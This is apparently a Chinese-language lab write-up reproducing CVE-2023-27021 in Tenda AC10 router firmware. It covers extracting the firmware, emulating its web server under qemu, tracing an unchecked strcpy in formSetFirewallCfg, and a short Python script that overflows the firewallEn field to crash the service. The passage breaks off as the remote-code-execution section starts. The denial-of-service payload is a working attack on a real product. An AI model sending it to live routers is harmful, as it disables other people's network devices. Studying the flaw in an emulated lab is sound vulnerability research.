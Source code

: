 # CVE-2023-27021 漏洞挖掘及利用

本文尝试通过 tenda 的一个固件对 CVE-2023-27021 进行复现，利用漏洞实现 RCE

CVE 简介：

![image-20250812203906824](./img/cve/image-20250812203906824.png)

## 固件下载及提取

[CVE 中对应的固件下载地址](https://www.tenda.com.cn/material/show/3506)

binwalk 提取固件

```bash
binwalk -Me US_AC10V4.0si_V16.03.10.13_cn_TDC01.bin
```

成功拿到了如下的根文件系统

![image-20250812213213516](./img/cve/image-20250812213213516.png)

## 固件模拟

既然拿到了根文件系统了，那就直接 chroot 了

![image-20250812215055065](./img/cve/image-20250812215055065.png)

由于是 mips 架构的，需要 qemu 来模拟执行，这里进行用户态仿真就行了，这里要注意是小端序（LSB）

> qemu-mips-static 是针对大端序 MPIS（MIPS-BE）的
>
> qemu-mipsel-static 是针对小端序 MPIS（MIPS-LE）的

```bash
sudo apt install qemu-user-static

cp /usr/bin/qemu-mipsel-static .
sudo chroot . ./qemu-mipsel-static  ./bin/httpd
```

![image-20250812222350947](./img/cve/image-20250812222350947.png)

这里就一直卡在这里了。在 IDA 中搜索 WeLoveLinux 字符串定位到这里

![image-20250812222810491](./img/cve/image-20250812222810491.png)

```c
while ( 1 )
{
	lan_ifname = ifaddrs_get_lan_ifname();
	if ( ifaddrs_get_ifip(lan_ifname, v10) >= 0 )
 	break;
	sleep(1u);
}
```

这里可以看到，程序一直在寻找一个可用的局域网接口并尝试获取 IP，由于是在 chroot 的环境下，程序无法查询网络接口，所以就一直卡死在了这个循环里。

虽然这里可以直接 patch 掉，但为了更好地复现漏洞，我们还是给它提供真实的网桥和 IP。

网桥的作用就是连接多个网络接口，使它们之间能相互通信。在这种虚拟化的环境中，网桥允许虚拟机通过主机的网络设备访问外部网络或与主机通信。

这里就用 brctl 创建虚拟网桥连接主机的接口，路由器通过该网桥与主机和外部网络通信

```bash
sudo brctl addbr br0            # 创建网桥
sudo brctl addif br0 enp2s0     # 添加主机接口
sudo ifconfig br0 up            # 激活网桥
sudo dhclient br0               # 从 dhcp 服务器获得 br0 的 IP 
```

然后再次启动即可

![image-20250813010140435](./img/cve/image-20250813010140435.png)

![image-20250813010217060](./img/cve/image-20250813010217060.png)

这里需要把 webroot_ro 文件夹下的内容复制到 webroot 文件夹中

```bash
cp -r webroot_ro/* var/webroot/
```

再次启动即可正常访问

![image-20250813010430498](./img/cve/image-20250813010430498.png)

## 漏洞测试（DoS）

根据 CVE 的描述，问题出现在 formSetFirewallCfg 这个函数里面，先找到它

![image-20250813011534775](./img/cve/image-20250813011534775.png)

这里注意到 strcpy 这个函数，在不对 s 作长度限制的情况下直接 copy 到了栈上，这就可能存在栈溢出的洞

我们先来看看这个函数是干什么的，看一下引用

![image-20250818231812967](./img/cve/image-20250818231812967.png)

websFormDefine 是干什么的呢，这里我们来看看流量

![image-20250818232149592](./img/cve/image-20250818232149592.png)

比如这里的 GetRouterStatus，结合下图，可以猜测 websFormDefine 可能是用来设置不同的 url 接口的处理函数

![image-20250818232312743](./img/cve/image-20250818232312743.png)

再比如我们点击家长控制，就会请求 /goform/GetParentCtrlList

![image-20250818232733923](./img/cve/image-20250818232733923.png)

formSetFirewallCfg 从名字上看应该和防火墙有什么关系，我们点击一下防火墙功能

![image-20250818232949308](./img/cve/image-20250818232949308.png)

![image-20250818233156283](./img/cve/image-20250818233156283.png)

基本可以确定我们的目标 url 路径是 /goform/SetFirewallCfg 了

再次回到 formSetFirewallCfg 这个函数，我们需要控制传入 strcpy 的变量 s，`s = (char *)websGetVar(a1, "firewallEn", "1111");` 

websGetVar 可能表明要传入的变量名是 firewallEn，如果是这样的话，我们可以先来尝试一下 dos 攻击

```python
import requests

url = 'http://192.168.2.165/goform/SetFirewallCfg'


payload = 'a'*0x300


data = {"firewallEn": payload}

response = requests.post(url, data=data)

print(response.status_code)
print(response.text)
```

发包以后无法获得响应，chroot 进程直接卡死了，web 界面也无法访问了，dos 攻击成功

## RCE

要想 rce，那我们就得精心构造合适的 payload。先来学一下 [mips-rop](./mips.md)

先来调试一下看看我们的 payload 是怎样布置到栈上的

```bash
sudo chroot . ./qemu-mipsel-static -g 1234 ./bin/httpd
```

